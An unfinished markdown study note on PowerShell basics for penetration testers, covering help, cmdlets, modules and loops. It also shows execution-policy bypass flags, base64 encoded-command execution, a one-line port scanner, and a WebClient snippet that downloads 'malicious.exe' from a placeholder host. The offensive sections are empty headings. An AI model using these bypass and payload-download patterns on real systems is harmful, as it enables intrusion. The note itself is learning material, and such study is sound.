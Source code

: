 # PowerShell for Pentesters [Under Progress]

## What is Powershell?

- Powershell is a powerful built-in CLI or "shell" also task-orientes scripting language
- Mostly used by admins
- Built on top of .NET
- Scripts end with ".ps1"
- Version 5.0 onward introduce some hurdles regarding logging and restrictive modes
- Powershell 6.0 is available MacOS and Linux also as Docker image

## Fundamentals

'C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe' where exe files of powershell stays. 
    for 64-bit it stays under system32 directory. C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe
    for 32-bit it stays in C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe

```shell
#You can learn like that
PS C:\Windows\system32\WindowsPowerShell\v1.0> [Environment]::Is64BitProcess
True
```

You can learn detail with command below

```shell
C:\> powershell /?
```

Execution Policy 

```shell
powershell.exe -ExecutionPolicy Bypass ./shell.ps1
powershell.exe -ExecutionPolicy Unrestricted ./shell.ps1
powershell.exe -Command Get-Process
powershell.exe -Command "& {Get-Eventlog -Logname security}"
```

EncodedCommand:
Used to executed base64 command

```shell
powershell.exe -EncodedCommand $encodedCommand
```


- Like Man pages you can reach Get-Help section of all commands
  - `Get-Help Get-Help`
  - `Get-Help Get-Process -Full`  Gives full result regarding that command
  - `Get-Help Get-Process -Examples` you can learn examples of that commands
  You can updata man pages with Update-Help command

- You can learn commands by tunning the command so you don't need to memorize alll.
  `Get-Commands -Name *Log*`

  
### Cmdlets

- You can change formats of command results 
  - For ex. `Get-Childitem | Format-List *` 

- After learning all these commands you can pipe them to get objects 
  - For ex. `Get-Childitem | Sort-Object -Unique | Select-Object Basename`

- Redirection works as same like in other OS {<,>}
- You can use different format also 
  - `Get-Process notepad | Format-List Path`
  - or even
  - `Get-Process notepad | Format-List Path,Id,ProcessName`
  - 
- `Get-WmiObject -class win32_operatingsystem | Select -Property *`
- We can use `fl` as alias to `Format-List`
- If you want to you create csv file you can use Export-Csv 
  - `Get-WmiObject -Class win32_service | Select-Object Name, ProcessID | export-csv C:\Users\public\Documents\try.csv`

- In order to see Registry hives 
- `cd HKLM:\`
- Select-String is important command 
  - `Select-String -Path C:\Users\public\Documents\*.txt -Pattern yoursearch*`
- Get-Content
  - cat = Get-Content
- To learn servises which are running and available 
  - `Get-Service`
  - `Get-Service | Select-Object Name`
  - `Get-Service "n*" | Sort-Object status -Descending`

### Modules

- Modules can contain powershell scripts and code files. And they are in directories.
- Modules are importet powershell session. 
- To obtain list currently imported modules `Get-Module`
- `Get-Module -ListAvailable` we can learn all modules that we can import. 
- In order to import module `Import-Module .\new_module.psm1`
- `$Env:PSModulePath` should include the module that we need to import
- You need to create a directory inside one of these paths and upload all files in that directory. 
- After uploading these files in that directory run basically 
  - `Import-Module ModuleName` and confirm it `Get-Module`
  - Then you can learn module commands by running `Get-Command -Module AADInternals`
  - To Learn one command `Get-Help Add-AADIntEASDevice` 
  - 

### Scripts

#### Intro for Scripts

- PowerShell Scripts end with .\ps1 
- 1 refer not to a version but PowerShell engine itself
- In order to run script just `.\script.ps1`

```shell
Param([parameter (mandatory=$true)][string]$file)
Get-Content "$file"
```

That script takes an argument and later write content of it.
    or you can put a variable inside that parameter like
    `$file= try.txt`
    `Get-Content $file`

#### Loop Statements

- for()
- foreach()
- while()
- do {something}while()
- do {something}until)()
- Learn details with 

```shell
    Get-Help about_Foreach
    Get-Help about_For
    Get-Help about_Do
    Get-Help about_While
```

- Examples
  - Foreach()

``` shell
        $services = Get-Service
        foreach ($i in $services){ $i.Name }
```

      or also 

      `Get-Service | ForEach-Object {$_.Name}` here $_ is giving you ability to iterate it. 
  - Where-Object
    - it gives you ability to find values 
      - `Get-ChildItem C:\Users\ | Where-Object {$_.Name -match "public"}`

    ```shell 
    $ports = {444,81}
    $ip = "127.0.0.1"
    foreach ($port in $ports) {try{$socket=New-Object System.Net.Sockets.TcpClient($ip,$port);} catch{}; if($socket -eq $null) {echo $ip":"$port" - Closed ";} else{echo $ip":"$port - "Open"; $socket - $null;}}
     ```

### Objects

- We can learn objects
    `Get-Process | Get-Member -MemberType Method`
     `Get-Process -Name "chrome" | Kill`
- Also with `New-Object` creating .Net Framework object or COM object is possible
- Creating new object based on .NET class
  - ```shell
    $webclient = New-Object System.Net.WebClient
    $url = "https://domain.example.com/malicious.exe"
    $file = "C:\ProgramData\malicious.exe"
    $webclient.DownloadFile($url,$file)
    ```
    - Here webclient is a class from .NET class and that class Download file method works with two variable. 


## Offensive PowerShell

### Downloading and Executing 


### Obfuscation 

### Information Gathering and Recon

### 














